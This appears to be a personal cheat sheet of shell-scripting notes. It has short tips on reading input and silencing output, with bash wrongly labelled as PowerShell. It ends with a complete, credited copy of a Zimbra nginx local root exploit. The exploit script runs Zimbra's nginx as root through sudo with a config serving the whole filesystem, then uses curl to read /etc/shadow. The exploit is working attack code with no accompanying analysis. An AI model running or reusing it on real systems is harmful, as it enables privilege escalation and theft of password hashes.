 # S c r i p t i n g

- _"A script should be run without errors"_
- _"It should perform the task for which it is intended"_
- _"Program logic is clearly defined and apparent"_
- _"A script does not do unnecessary work"_
- _"Scripts should be reusable"_

## Waiting for user input
````powershell
read -p "Write the path: " variableName
read -p "Press [ENTER] when finished..."
````

## Redirecting output
````powershell
sudo apt update > /dev/null 2>&1 

````

## zimbra-nginx-local-root-exploit
- [Source](https://darrenmartyn.ie/2021/10/25/zimbra-nginx-local-root-exploit/)
````
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
EOF
echo "[+] Launching..."
sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf
echo "[+] Reading /etc/shadow..."
curl http://localhost:1337/etc/shadow
````
